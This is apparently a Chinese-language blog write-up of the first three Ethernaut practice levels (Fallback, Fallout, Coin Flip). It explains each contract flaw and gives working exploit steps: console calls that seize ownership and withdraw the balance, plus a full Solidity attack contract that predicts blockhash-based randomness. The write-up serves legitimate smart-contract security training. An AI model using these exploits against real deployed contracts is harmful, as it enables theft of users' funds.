







title: Ethernaut靶场记录
author: John Jue
date: 2023-10-11 13:41:43
tags:
---
# 1.Fallback

本关有两个要求
<li>获得这个合约的所有权
<li>把他的余额减到0
  
先使用 `contract`查看合约的 abi以及函数信息 


然后去审计一下合约代码，找到变更合约owner的入口
```SOL
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```
可以看到如果贡献值超过owner，即可获得合约拥有权，但是
```SOL
constructor() {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```
合约owner的贡献为1000，很难超过，所以审计如下代码
```SOL
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```
发送以太币：发送者必须在向合约发送以太币的交易中包含一定数量的以太币，即 `msg.value > 0`。
且之前贡献过：发送者的地址必须在合约的贡献映射 `contributions` 中具有非零的贡献金额，即 `contributions[msg.sender] > 0`。
可以推出，我们只需要往合约连续转两次eth即可拿到合约owner。

控制台输入`await contract.contribute({value:1})`


然后调用`await contract.getContribution()`来查看一下贡献


发现贡献为1，满足`receiver()`的限制，使用`await contract.sendTransaction({value:1})`构造转账给合约



查看合约owner，确认是不是player


可以看到已经成功更改，最后调用`await contract.withdraw()`取出所有余额，提交实例。

成功


# 2.Fallout
题目提示`Solidity Remix IDE`可能会有帮助，`Solidity Remix IDE`是一个web端的SOL代码编写工具
关卡要求：
<li>合约的所有权

首先还是用`contract`查看合约的abi以及函数



进行代码审计，发现合约名字为Fallout，但是如下代码中写成了Fal1out 
```SOL
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```
这段代码导致所有人都可以调用Fal1out()，而不只是合约owner，所以，我们也可以调用该函数。
先使用`await contract.owner()`查看合约拥有者


调用`await contract.Fal1out({value:1})`往里进行转账，获取合约所有权。


确认owner为player，提交通关

# 3.Coin Flip
该合约的通关要求为
<li>掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

合约地址为：0xb3b41329530970733e6c049F0C81488313D22442
先进行代码审计，合约主函数如下：
```SOL
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```
代码意思为：硬币的正反面是由当前区块前一区块的高度所决定的。如果我们不知道当前区块高度是多少，就难以提前预知硬币的正反面。且同时，合约通过lastHash保证同一区块只能有一次提交。
大概思路为：新建自己的智能合约，提前预测硬币正反面，并向关卡合约发出请求。
编写攻击合约，其中`CoinFlipAttack`就是我们的攻击合约，而`CoinFlip`和`CoinFlipInterface`都是为目标合约提供abi接口而定义的：
```SOL
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6be0b410dcb77bc046cd3c960b4170368c502162/contracts/math/SafeMath.sol';
contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}


contract CheatGuess {
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address originalAddress = 0xb3b41329530970733e6c049F0C81488313D22442;  //实例合约地址
  CoinFlip public originalContract = CoinFlip(originalAddress);

  function cheat() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    
    originalContract.flip(side);
  }

}
```
需要将`address originalAddress`改为靶场合约地址，在部署页面，选择Injected Web3，连接Metamask钱包。


使用小狐狸授权部署，点击左侧cheat，支付gas


我们可以发下如下图


猜测成功次数增加了，发送十次即可


提交通关
